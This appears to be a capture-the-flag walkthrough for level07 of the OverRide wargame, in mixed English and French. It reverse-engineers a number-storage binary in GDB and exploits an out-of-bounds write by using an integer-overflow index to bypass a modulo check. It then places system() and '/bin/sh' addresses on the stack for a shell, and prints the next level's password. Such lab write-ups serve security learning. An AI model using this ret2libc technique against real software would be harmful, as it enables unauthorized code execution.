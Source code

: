 # Level07 Walkthrough

## Analyzing the Program with GDB and ghidra
NEED TO GHIDRA 

1. **Whats happening**: 

- The program provides a simple number storage service, with some commands `store`, `read` and `quit`, wil has reserved some storage, in an array dynamicaly stored. 

- There is somes functions like : 
   - `get_unum()` : read unsigned int from standart input with `scanf` : `disas get_unum` to see `0x08048610 <+41>:    call   0x8048500 <__isoc99_scanf@plt>` after validation.
   - `store_number` : Verify if the condition to write the number with index is respected, otherwise it returns an error.
   - `read_number` : read and print the value with a specified index in the storage array.

- Its a magic number walkthrough : number pre-calculated (with special multiplicator) that avoid verifications. 
On cherche un multiplicateur 𝑚 tel que : 𝑚 × 𝑑 ≈ 2𝑘 where k is the precision choosen. During execution, we can replace powerfull division by its multiplication or bitshifting. 

- Let's run it.
```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:
```

- We can see that the max number is `4294967295` : 
```bash
Input command: store
 Number: 879489874984987
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 4294967295
 Completed read command successfully
Input command: store
 Number: 3
 Index: 2
 Completed store command successfully
Input command: read    
 Index: 2
 Number at data[2] is 3
 Completed read command successfully
```

- Lets `disas main` and see the walkthrough, lets check the `store` : 
```bash
disas store_number
[...]
0x08048697 <+103>:   movl   $0x8048ae6,(%esp)
0x0804869e <+110>:   call   0x80484c0 <puts@plt>

[...]

0x080486a3 <+115>:   movl   $0x8048af8,(%esp) <---- This index is reserved for wil 
0x080486aa <+122>:   call   0x80484c0 <puts@plt>
0x080486af <+127>:   movl   $0x8048ae6,(%esp) <------- "Error"
0x080486b6 <+134>:   call   0x80484c0 <puts@plt>
[...]
```

- Here, they read the value of the number and the index and then, there is some operation, checking the condition : Here is a magic number, during this steps it checks 
   - if our number is divided by 3 or not index % 3 == 0
   - if value >> 24 != 183 (=> value / 16777216) 

```bash
0x0804866e <+62>:    mov    -0xc(%ebp),%ecx
0x08048671 <+65>:    mov    $0xaaaaaaab,%edx <----- which is 2863311531
0x08048676 <+70>:    mov    %ecx,%eax
0x08048678 <+72>:    mul    %edx <---- multiplying the value in eax with the value in edx. The multiplication is an unsigned multiplication. The product, a 64-bit value, is stored in edx:eax. The lower 32 bits of the product are stored in eax, and the upper 32 bits are stored in edx.

0x0804867a <+74>:    shr    %edx <---- shift right
0x0804867c <+76>:    mov    %edx,%eax
0x0804867e <+78>:    add    %eax,%eax
```

- Lets see the read part :
```bash
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi
   0x0804890d <+490>:   mov    %eax,%edi
   0x0804890f <+492>:   repz cmpsb %es:(%edi),%ds:(%esi) <---- strcmp ???
   0x08048911 <+494>:   seta   %dl
   0x08048914 <+497>:   setb   %al
   0x08048917 <+500>:   mov    %edx,%ecx
   0x08048919 <+502>:   sub    %al,%cl
   0x0804891b <+504>:   mov    %ecx,%eax
   0x0804891d <+506>:   movsbl %al,%eax
   0x08048920 <+509>:   test   %eax,%eax
   0x08048922 <+511>:   jne    0x8048939 <main+534> <---- condition
   0x08048924 <+513>:   lea    0x24(%esp),%eax
   0x08048928 <+517>:   mov    %eax,(%esp)
   0x0804892b <+520>:   call   0x80486d7 <read_number> <---- call to another read number
   0x08048930 <+525>:   mov    %eax,0x1b4(%esp)
```

- Lets see the read_number part : 
```bash

(gdb) disas read_number
Dump of assembler code for function read_number:
   0x080486d7 <+0>:     push   %ebp
   0x080486d8 <+1>:     mov    %esp,%ebp
   0x080486da <+3>:     sub    $0x28,%esp
   0x080486dd <+6>:     movl   $0x0,-0xc(%ebp)
   0x080486e4 <+13>:    mov    $0x8048add,%eax
   0x080486e9 <+18>:    mov    %eax,(%esp)
   0x080486ec <+21>:    call   0x8048470 <printf@plt>
   0x080486f1 <+26>:    call   0x80485e7 <get_unum> <---- call to get_unum() 
   0x080486f6 <+31>:    mov    %eax,-0xc(%ebp)
   0x080486f9 <+34>:    mov    -0xc(%ebp),%eax
   0x080486fc <+37>:    shl    $0x2,%eax <--- Shift left by 0x2
   0x080486ff <+40>:    add    0x8(%ebp),%eax <---- Add this number contains on %eax 
   0x08048702 <+43>:    mov    (%eax),%edx
[...]
```

- There is an out-of-Bounds access in `store_number` function, need to find out what to store (system and bin/sh) and where (store_number function), we should play with outbound access with number and access. 

- The program autorize values that dont pass the test 

2. **Final walktrough**

- We'll get the offset of store_number, lets breakpoint before store_number to put values and then break before the return to check the offset 

0x08048633 <+3>:     sub    $0x28,%esp
0x080489f1 <+718>:   ret
```bash
(gdb) b *0x08048633
Breakpoint 1 at 0x8048633
(gdb) b *0x080489f1
Breakpoint 2 at 0x80489f1
(gdb) r
[...]
Input command: store

Breakpoint 1, 0x08048633 in store_number ()
(gdb) x $ebp+0x8 
0xffffd520:     0xffffd544
(gdb) c
[...]
Input command: quit

Breakpoint 2, 0x080489f1 in main ()
(gdb) x/wx $esp
0xffffd70c:     0xf7e45513
```

0xffffd70c - 0xffffd520 = 492 - 36 = 456 

456 / 4 = 114 sauf que c'est divisible par 3. 

- Pourquoi faire une soustraction ? Car elle revele l'offset relatif entre une position dans la pile et une position dans une zone memoire (l'offset indique le decalage entre ces deux addresses)

- On va utiliser un magic number car il est possible de contourner cette limitation avec un integer overflow, par exemple en utilisant 1073741824 (c'est-à-dire 2^32/4) au lieu de zéro.

- De même, on ne peut pas utiliser directement l'index 114 (c'est un multiple de 3) ; donc on devra stocker à l'index 1073741938 (1073741824 + 114).

```bash
Input command: store
 Number: 4159090384 <-----  0xF7E6AED0 <system> function uppercase
 Index: 2147483762 OR 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172 <---- 0xF7F897EC <"/bin/sh"> function 
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

---

## Moving to level08

1. **Swith User to level08**:
    Run ```su level08```
```

2. **Authenticate with the Password**:
    
   
 